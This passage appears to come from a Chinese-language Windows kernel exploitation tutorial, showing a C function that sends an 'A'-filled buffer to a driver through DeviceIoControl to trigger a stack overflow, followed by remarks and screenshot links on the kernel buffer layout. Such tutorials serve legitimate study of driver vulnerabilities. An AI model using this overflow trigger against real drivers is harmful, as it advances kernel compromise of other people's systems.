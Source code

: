 ```plain
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    unsigned int size = 0x80;
    RtlFillMemory(stackspace, size, 'A');
    DWORD info = 0;

    DeviceIoControl(hDevice, ioctl, 
        stackspace, size, 
        NULL, 0, 
        &info, NULL);

    printf("info: %d\n", info);
    std::cout << "IO Complete\n";
}
```

如果引发溢出的话，看看 kernel 中的`v5`变量的布局

[![](assets/1706090591-a1e76bb4dee919a4609ca6c1fad29e3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122130453-c77a050e-b8e3-1.png)

[![](assets/1706090591-a980dad718822eb913700b310704a6ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122130503-cd04b870-b8e3-1.png)

这里的 kernelBuffer 就相当于用户模式下的“栈帧”

同时可以看到我们程序的内存

[![](assets/1706090591-bf264d65d4ec585aca7bb28bc9fb5e35.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122130512-d24d119c-b8e3-1.png)
